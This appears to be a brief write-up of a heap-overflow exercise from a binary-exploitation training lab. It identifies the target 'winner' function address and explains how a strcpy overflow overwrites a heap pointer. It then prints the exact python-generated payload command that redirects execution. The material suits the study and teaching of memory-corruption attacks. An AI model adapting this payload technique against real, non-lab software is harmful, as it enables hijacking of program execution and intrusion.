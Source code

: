 ## Exercise 11: Heap-Based Buffer Overflow

Goal: Redirect execution to winner by exploiting a heap overflow.

Key Information

winner function address: 0x08048494

The overflow targets a pointer in the heap, overwriting it with the address of winner.

Exploit Steps

Analyze the binary:
Heap chunks (8 bytes each) are allocated and manipulated. strcpy causes an overflow, allowing adjacent memory to be overwritten.

Create the payload:

Overflow the heap chunk and overwrite the target pointer:
    
    `bash`

    `./bin $(python -c 'print("A"*20+"\x74\x97\x04\x08"+" "+"\x94\x84\x04\x08")')`


Result: Execution is redirected to winner.

[exercise11](img/11.png)